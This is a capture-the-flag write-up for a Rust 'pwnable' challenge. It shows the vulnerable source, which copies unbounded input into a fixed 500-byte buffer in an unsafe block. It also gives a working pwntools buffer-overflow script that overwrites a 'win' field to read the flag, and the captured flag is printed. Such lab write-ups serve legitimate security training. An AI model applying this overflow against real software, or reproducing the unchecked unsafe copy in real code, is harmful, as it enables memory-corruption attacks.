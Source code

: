 # [Pwn] pwnable

## 📚 Overview

> *"rust is pwnable? not sure"*

## 💻 Source Code

We could overwrite the `win` variable by overflowing the buffer and insert the value needed to trigger `read_flag()` function.

```rs
use std::{io::{Write, stdin, stdout, BufRead}, process::exit};

#[repr(C)]
struct Pwnable {
    data: [u8; 500],
    win: u64
}

fn input(prompt: &str) -> Vec<u8> {
    print!("{}", prompt);
    stdout().flush().unwrap();
    let mut buffer = Vec::new();
    stdin().lock().read_until(b'\n', &mut buffer).unwrap();
    buffer
}

fn read_flag(){
    let flag = std::fs::read_to_string("flag.txt");
    match flag {
        Ok(flag) => println!("{}", flag),
        Err(_) => println!("flag not found")
    }
}
fn main() {
    println!("wat sud i do wit rust?");
    let buf: Vec<u8> = input("> ");
    let mut pwn = Pwnable {
        data: [0; 500],
        win: 0
    };
    unsafe { std::ptr::copy(buf.as_ptr(), pwn.data.as_mut_ptr(), buf.len()) }
    if pwn.win as usize == 0xdeadb19b00b5dead {
        read_flag();
        exit(0);
    } else {
        println!("nope");
        exit(1);
    }
}
```

## ⚙ Full Script

**Payload >** Fill in the memory spaces provided for `data` variable, add the padding bytes, and then insert the value in `win` variable.

```python
from pwn import *
elf = context.binary = ELF("./pwnable", checksec=False)

p = process('./pwnable')
# p = remote("IP_ADDR", PORT)

offset = 500 + 4
payload = b'A' * offset + p64(0xdeadb19b00b5dead)
p.sendlineafter(b"> ", payload)

response = p.recvall(timeout=1).strip()
print(response.decode())

# TCF2024{pagi_pagi_begini_main_ctf?_hoaam_tidur_pun_sodap_ni}

p.close()
```